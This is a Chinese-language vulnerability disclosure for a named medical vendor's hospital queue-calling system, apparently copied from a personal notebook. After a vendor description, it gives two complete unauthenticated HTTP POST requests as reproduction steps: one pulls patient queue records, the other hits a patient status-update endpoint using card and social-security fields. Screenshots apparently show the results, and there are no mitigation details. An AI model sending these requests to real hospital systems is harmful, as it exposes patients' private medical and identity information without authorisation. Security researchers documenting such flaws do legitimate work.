 # 心医国际排队叫号系统敏感信息泄露

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际是中国专业的医疗云应用解决方案提供商，铺建并运营全国领先的智能医疗云平台，依托十年的数据积累和业务实践，持续创新智能医疗场景应用。业务服务覆盖诊疗、教学、科研、管理等多维度，助力政府、医院及产业合作伙伴，打造线上线下高效协同的智慧医疗健康服务体系，目前已建成覆盖全国31个省，联结2万余家医疗机构的智能医疗云平台，助力建设并服务青海、河南、陕西、山西、贵州、新疆、江西、广西、甘肃9大省级远程医疗平台，服务通达80%全国三甲级医院;成功建设并服务全国300余个省、市、县及专科医联体。心医国际排队叫号系统存在未授权敏感信息泄露漏洞，攻击者可通过该漏洞获取系统敏感信息  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际排队叫号系统</font>

![1714370825066-6953c7f5-fa94-4329-b1ec-f8ee12ee1f5c.png](./img/xLWT12YcmtcwVbvt/1714370825066-6953c7f5-fa94-4329-b1ec-f8ee12ee1f5c-885150.png)<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、漏洞复现</font>**

```plain
POST /showqueue/showqueue/patient/queryQueueInfo HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 104

patientstatus=&queueID=&department=&waitarea=&name=&startTime=&endTime=&curPage=0&queueNumber=&operator=
```

![1714361218056-eb624f8f-9644-4667-a379-e627e7f218c1.png](./img/xLWT12YcmtcwVbvt/1714361218056-eb624f8f-9644-4667-a379-e627e7f218c1-200892.png)

```plain
POST /showqueue/showqueue/patient/statusUpdate HTTP/1.1
Host: 
Content-Length: 32
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Connection: close

cardNo=1&cardType=out&socialNo=1
```

![1714374318126-38b39263-2da1-46fa-b16e-a346a57d686a.png](./img/xLWT12YcmtcwVbvt/1714374318126-38b39263-2da1-46fa-b16e-a346a57d686a-495915.png)



> 更新: 2024-06-17 09:27:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/so6gdl84a7wk9snw>